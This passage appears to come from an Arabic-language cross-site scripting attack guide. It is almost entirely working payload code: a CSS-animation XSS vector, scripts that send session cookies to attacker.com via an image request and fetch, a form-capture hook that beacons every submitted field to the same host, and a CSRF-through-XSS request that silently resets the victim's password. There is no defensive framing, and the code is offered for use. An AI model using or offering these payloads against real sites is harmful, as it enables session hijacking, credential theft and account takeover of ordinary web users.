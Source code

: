 ```html
<style>
@keyframes x {
    from { background: url("javascript:alert('XSS')"); }
}
#victim {
    animation-name: x;
    animation-duration: 1s;
}
</style>
<div id="victim"></div>
```

## مهام هجوم XSS المتقدمة

### 1. سرقة الكوكيز

```javascript
// إرسال كوكيز الجلسة إلى خادم المهاجم
new Image().src = "https://attacker.com/steal?cookie=" + encodeURIComponent(document.cookie);

// طريقة بديلة باستخدام Fetch API
fetch("https://attacker.com/steal", {
    method: "POST",
    body: JSON.stringify({cookie: document.cookie}),
    headers: {"Content-Type": "application/json"}
});
```

### 2. التقاط بيانات النماذج

```javascript
// التقاط بيانات النماذج بأكملها
document.querySelectorAll("form").forEach(form => {
    form.addEventListener("submit", function(e) {
        const formData = new FormData(form);
        const data = {};
        for (let [key, value] of formData.entries()) {
            data[key] = value;
        }
        
        // إرسال البيانات إلى المهاجم
        navigator.sendBeacon("https://attacker.com/steal", JSON.stringify(data));
    });
});
```

### 3. تزييف طلبات العميل (CSRF عبر XSS)

```javascript
// حقن طلب لتغيير كلمة المرور
function changePwd() {
    const req = new XMLHttpRequest();
    req.open("POST", "/api/account/change-password", true);
    req.setRequestHeader("Content-Type", "application/json");
    req.withCredentials = true;
    req.send(JSON.stringify({
        "newPassword": "hackedPassword123",
        "confirmPassword": "hackedPassword123"
    }));
}
changePwd();
```
